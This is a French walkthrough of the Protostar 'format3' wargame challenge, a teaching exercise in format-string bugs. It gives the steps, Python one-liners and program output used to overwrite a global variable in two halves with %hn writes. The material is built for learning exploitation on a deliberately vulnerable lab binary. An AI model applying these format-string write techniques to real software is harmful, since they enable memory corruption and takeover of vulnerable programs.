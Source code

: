 Je peux placer un breakpoint dans `printbuffer` au moment du `printf` pour observer la pile. J'obtiens ainsi une indication de où se trouve mon buffer pour ajuster la position dans ma chaine de format.

Notez qu'on pourrait aussi l'obtenir via brute force en relançant le binaire autant de fois que nécessaire.

```
user@protostar:/opt/protostar/bin$ ./format3
AAAA%12$08x
AAAA41414141
target is 00000000 :(
```

Au lieu d'écraser le dword complet en mémoire, on va écraser deux shorts (16 bits). L'un pour les octets de poids fort de la variable `target` et l'autre pour ceux de poids faible. On le fait avec le format `%hn`.

La valeur attendue est `0x01025544`. Une moitiée correspond à la valeur 258 et l'autre à 21828 :

```python
>>> import struct
>>> struct.pack("<I", 0x01025544)
b'DU\x02\x01'
>>> struct.unpack("<H", b"\x02\x01")
(258,)
>>> struct.unpack("<H", b"DU")
(21828,)
```

On choppe la valeur de `target` :

```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

Commençons par écrire les octets de poids forts (on commence toujours par la valeur la plus petite et dans ce cas précis ce sont les octets de poids forts) :

```shellsession
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x080496f4+2) + "A" * 254 + "%12$hn"' > /tmp/input 
user@protostar:/opt/protostar/bin$ ./format3 < /tmp/input 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
target is 01020000 :(
```

Ca fonctionne. On part donc sur les octets de poids faible. Il faut penser à retrancher des 21828 octets le nombre de caractères qui ont été affichés précédemment :

```shellsession
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x080496f4+2) + struct.pack("<I", 0x080496f4)+ "A" * 250 + "%12$hn" + "%021570x" + "%13$hn"' > /tmp/input 
user@protostar:/opt/protostar/bin$ ./format3 < /tmp/input 
��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA--- snip ---00000000000000000
you have modified the target :)
```
